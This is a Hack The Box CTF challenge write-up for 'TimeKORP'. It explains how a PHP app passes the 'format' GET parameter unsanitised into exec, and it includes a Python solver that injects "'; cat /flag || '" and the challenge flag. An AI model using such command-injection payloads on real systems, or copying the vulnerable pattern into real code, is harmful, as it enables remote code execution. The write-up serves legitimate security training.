

# TimeKORP

### Description:
* Are you ready to unravel the mysteries and expose the truth hidden within Korp's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.

### Objective:
* Command Injection

### Difficulty:
* `Very Easy`

### Flag:
* `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`

### Challenge:

<p align='center'>
  
</p>

# [__⏰ Time Factory__](#time-factory)

In [`controllers/TimeController.php`](challenge/controllers/TimeController.php), we see that the the application expects input through `$_GET`'s `format` value. If there isn't one it default to `'%H:%M:%S'` and then passes it to `TimeModel` and displays the invoked `getTime()` method to the view.
```javascript
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

In [`models/TimeModel.php`](challenge/models/), the function argument then constructs a variable called `command` which is later going to be passed to `exec`. Using the `format` GET parameter, we can escape the context of the `date` command and utilise command injection in order to get RCE. 

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

### Solver:
```python
import requests

host, port = 'localhost', 1337
HOST = 'http://%s:%s/' % (host, port)

r = requests.get(HOST, params={ 'format': "'; cat /flag || '" })
print(r.text)
```
